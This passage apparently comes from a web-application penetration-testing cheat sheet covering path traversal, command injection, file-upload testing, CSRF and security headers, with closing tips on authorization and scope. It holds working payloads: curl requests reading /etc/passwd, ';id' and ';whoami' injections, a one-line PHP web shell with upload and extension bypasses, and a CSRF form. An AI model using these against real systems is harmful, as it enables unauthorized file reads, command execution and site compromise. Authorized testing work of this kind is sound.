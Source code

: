 8) Path traversal / LFI
```bash
# Linux
curl -s "$BASE_URL/view?file=../../../../etc/passwd" | head
# Windows
curl -s "$BASE_URL/view?file=..\\..\\..\\Windows\\win.ini" | head
# Encoded
curl -s "$BASE_URL/view?file=..%2f..%2f..%2f..%2fetc%2fpasswd" | head
```

9) Command injection (only in clearly vulnerable endpoints, e.g., ping/traceroute forms)
Try separators: ; && | ` $() 
```bash
# Example: param=127.0.0.1;id
curl -s "$BASE_URL/ping?host=127.0.0.1;id"
curl -s "$BASE_URL/ping" --data "host=127.0.0.1;whoami"
```

10) File upload testing
Create a minimal web shell (only in lab targets):
```bash
cat > shell.php << 'EOF'
<?php system($_GET['cmd'] ?? 'id'); ?>
EOF
```
Attempt upload (tweak field names and endpoint):
```bash
curl -s -F "file=@shell.php;type=image/jpeg" -F "submit=Upload" "$BASE_URL/upload.php" -i
# Then browse: http://TARGET/uploads/shell.php?cmd=id
```
Try double extensions (shell.php.jpg) and content-type tampering in Burp if filtered.

11) CSRF basics
Check if state-changing requests lack CSRF tokens. Minimal PoC template:
```html
<form action="http://TARGET/email/change" method="POST">
  <input type="hidden" name="email" value="attacker@example.com">
  <input type="submit" value="Submit">
</form>
```
Host locally and load in a browser with an authenticated session to validate.

12) HTTP security headers and cookies
```bash
curl -sI "$BASE_URL" | egrep -i "content-security-policy|x-frame-options|x-content-type-options|referrer-policy|strict-transport-security"
```

# Practical tips
- Always obtain explicit authorization; throttle requests to avoid disrupting production.
- Use Burp Proxy early; build a site map and list parameters/endpoints before fuzzing.
- Save raw requests for repeatability and tooling (Burp -> Save item; use with sqlmap -r).
- Prefer smaller wordlists first (raft-small-words.txt) to quickly find low-hanging fruit; expand only as needed.
- Calibrate ffuf/gobuster filters: compare a known 404 response size and filter with -fs or -fw; rely on -mc for status codes initially.
- Watch for JSON APIs; set correct Content-Type and test JSON keys too.
- Test headers where applicable (X-Forwarded-For, User-Agent, Referer) for injection/reflection.
- For auth brute, ensure scope allows it; set clear stop conditions (-f in hydra) and failure strings accurately.
- Validate IDOR/BAC by comparing responses with/without proper auth/roles; log evidence with timestamps and request IDs.
- Keep notes: affected URLs, parameters, payloads, responses, and remediation suggestions.
